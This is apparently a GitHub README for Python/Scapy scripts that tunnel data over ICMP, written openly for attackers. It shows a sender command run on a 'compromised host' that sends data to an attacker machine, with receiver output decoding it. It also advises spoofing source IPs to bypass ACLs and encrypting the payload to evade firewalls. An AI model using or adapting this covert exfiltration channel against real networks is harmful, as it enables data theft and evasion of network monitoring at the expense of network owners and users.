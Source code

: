 # ICMP Tunneling Scripts by LostRabbitLabs and x3dnesse

In order to use these scripts, root privileges are required and a python installation must be present on the victim machine.

What better way to avoid firewall controls than the usage of something as common as ICMP!

#### Script Usage

To use the scripts correctly, please do the following

On the compromised host

```
sudo python3 icmp_tunnel_sender.py -s 10.30.35.1 -a 10.30.35.93 -d 'hello from the other side' -c 5
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
.
Sent 1 packets.
```

On the receiving (attacker) machine

```
sudo python3 icmp_tunnel_receiver.py
Received 36 bytes from ('10.30.35.1', 0)
b'aiojwdijawiodjoaiwjdiajwodijoaiwd'
Decoded data: hello from the other side
```

#### Dependancies

1. Python Scapy

#### A Note on Source and Destination IP Addresses

Of course, you will want to make the destination IP address something you control, otherwise the ICMP requests will be lost in transit.

As for the Source IP, you can make this whatever you would like. Maybe you need to make it an IP from a subnet higher than you to bypass the ACL. Alas, this is totally up to you and you can spoof the source to whatever you wish.

#### Where is this script helpful?

Really anywhere, feel free to change the encoder to something you like. Maybe even change it to an AES cipher. The principle stays the same, you are sending data via ICMP requests and receiving and decoding/decrypting it!











